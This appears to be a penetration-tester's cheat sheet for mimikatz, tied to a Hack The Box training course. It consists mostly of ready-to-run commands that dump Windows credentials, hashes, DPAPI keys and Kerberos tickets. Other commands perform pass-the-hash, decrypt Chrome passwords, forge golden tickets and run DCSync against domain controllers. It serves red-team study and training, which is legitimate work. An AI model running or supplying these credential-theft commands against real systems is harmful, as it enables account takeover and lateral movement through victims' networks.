 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.7k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full # in memory passwords
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::dpapi           # dump DPAPI master key
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive /security:./security.hive
mimikatz# lsadump::lsa /patch
mimikatz# vault::list # list credential manager vaults
mimikatz# vault::cred # list credentials
```
</div><div>

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:xxx.yyy /run:cmd.exe
```

We can decrypt secrets encrypted using DPAPI master key using:

```shell!
mimikatz# dpapi::blob /in:"encrypted_file" /unprotect /masterkey:xxx
mimikatz# dpapi::chrome /in:".\Login Data" /unprotect /masterkey:xxx
```

To decrypt chrome passwords:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

Request a TGS ticket:

```shell!
mimikatz# kerberos::ask /target:cn # request TGS for cn
mimikatz# base64 /out:true
mimikatz# kerberos::list /export # cat b64 | tr -d '\n' | base64 -d > cn.kirbi
```

📚 See also: [pypykatz](pypykatz.md) for Linux users.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [thehacker.recipes](https://tools.thehacker.recipes/mimikatz)

Golden ticket (Admin not required)

```shell!
mimikatz# kerberos::golden /user:dummy /domain:dev.example.com /sid:<child domain SID> /krbtgt:<hash> /sids:<target domain SID> /ptt
```

Got the following errors and no fix worked. I manually dumped the LSASS memory (40MB!) and analyzed it on Linux.

```text!
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
```


</div><div>

DCSync (Admin required)

```shell!
mimikatz# lsadump::dcsync /user:example\krbtgt
mimikatz# lsadump::dcsync /user:example\krbtgt /domain:example.com
```
</div></div>